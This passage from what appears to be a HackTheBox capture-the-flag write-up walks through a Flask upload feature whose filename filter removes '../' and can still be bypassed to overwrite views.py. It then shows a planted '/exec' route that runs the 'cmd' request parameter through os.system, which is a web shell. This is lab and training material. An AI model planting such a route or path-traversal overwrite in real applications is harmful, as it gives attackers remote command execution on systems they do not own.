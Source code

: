 This file contains the code handling the uploading of files. The important line is this one:

```python
file_name = get_file_name(f.filename)
```

The get_file_name function is imported from the utils.py file:

```python
┌──(root㉿kali)-[~/htb/opensource/app/app]
└─# cat utils.py 
import time
def current_milli_time():
    return round(time.time() * 1000)
"""
Pass filename and return a secure version, which can then safely be stored on a regular file system.
"""
def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")
"""
TODO: get unique filename
"""
def get_unique_upload_name(unsafe_filename):
    spl = unsafe_filename.rsplit("\\.", 1)
    file_name = spl[0]
    file_extension = spl[1]
    return recursive_replace(file_name, "../", "") + "_" + str(current_milli_time()) + "." + file_extension
"""
Recursively replace a pattern in a string
"""
def recursive_replace(search, replace_me, with_me):
    if replace_me not in search:
        return search
    return recursive_replace(search.replace(replace_me, with_me), replace_me, with_me)
```

We can see in here that there is a basic check for directory traversal, and if ../ is found then it will be removed. However when this is passed back to the upload file function no further checks are done so we can intercept using Burp.

After some playing around I found I can alter the views.py file to add my own code to it. Then I can use that to get command execution.

This is a Flask app so a search on how to create an execute code function found [this](https://www.secjuice.com/247ctf-slippery-upload-write-up):

```python
@app.route('/exec')
def runcmd():
    try:
        return os.system(request.args.get('cmd'))
    except:
        return "Exit"
```
